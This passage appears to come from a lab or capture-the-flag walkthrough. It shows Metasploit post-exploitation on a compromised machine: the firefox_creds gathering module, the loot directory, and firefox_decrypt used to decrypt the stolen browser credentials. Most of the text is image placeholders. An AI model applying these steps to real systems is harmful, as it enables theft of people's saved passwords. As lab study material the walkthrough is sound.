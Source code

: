 
![image49](../resources/23ea71e8e22b4a7182e75253fb2f4680.png)

- Background session

- Now use the post exploit:

```bash
use post/multi/gather/firefox_creds

```
- Set the session

![image50](../resources/f472b1f8272d40c6972c2cdd559a3294.png)


![image51](../resources/72e75c4f61874822b6ede6fd58f673c2.png)

```bash
cd /home/hokage/.msf4/loot/

```
- We need to decrypt these firefox files:
<https://github.com/unode/firefox_decrypt>

Download firefox_decrypt.py

- Before running - we need to rename the loot files


![image52](../resources/66625e8591254e8695abc24fea0d7797.png)